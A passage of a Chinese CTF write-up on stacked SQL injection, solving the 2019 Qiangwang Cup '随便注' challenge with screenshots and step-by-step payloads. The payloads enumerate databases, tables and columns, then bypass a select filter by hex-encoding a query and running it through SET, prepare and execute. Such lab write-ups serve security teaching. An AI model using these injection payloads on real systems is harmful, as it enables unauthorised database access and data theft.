 ![1645241893632-afb99480-d72e-4c34-9563-6a8cf6a9d13a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104504-1469302553.png)

```plain
如果在浏览器这样子注入http://127.0.0.1:8081/web/mysql/news.php?id=2;create table xiaosedi like users;
他是不会执行成功的，因为代码上没有堆叠注入的条件。SQL监控也监控到SQL语句，但是没有创建表。
参考：https://www.cnblogs.com/backlion/p/9721687.html
强网杯2019随便注
打开网站地址，输入1
```

![1645244686223-77849e84-c396-4f32-ab09-d7074a0ba6c9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104370-433114908.png)

```plain
可以看出他把1代入数据库执行，输出结果。
尝试执行';show databases;
```

![1645244764097-08fc0d80-fdb2-4ff1-88d0-26b8eb373d3c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104728-2062447868.png)

```plain
可以获取到数据库的库名，然后在继续进行堆叠注入。
获取表名：';show tables;
```

![1645244833696-fbb46758-834d-4576-90b7-f663c22a4e82.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104460-792591059.png)

```plain
发现表名：1919810931114514
继续堆叠注入：';show columns from `1919810931114514`;
```

![1645244930650-5195e41b-6763-420f-a5f3-cd5747190609.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104730-132497278.png)

```plain
得到一个flag字段。
然后想得到flag，执行：';select flag from `1919810931114514`;
```

![1645245003644-2fc5f676-7159-460e-a289-e241599478a9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104704-1079974537.png)

```plain
但是发现了select等过滤，还有大小写都过滤了。这个时候应该怎么处理呢？应该怎么过滤呢？
对';select flag from `1919810931114514`;这个字符串进行转义成16进制。
转化成为：0x73656c656374202a2066726f6d20603139313938313039333131313435313460
构造payload：';SeT @a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

![1645245281752-30d179e0-d5e3-4a0a-a3d0-5d15b8330f89.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104719-816167896.png)

```plain
获得flag。
```

------
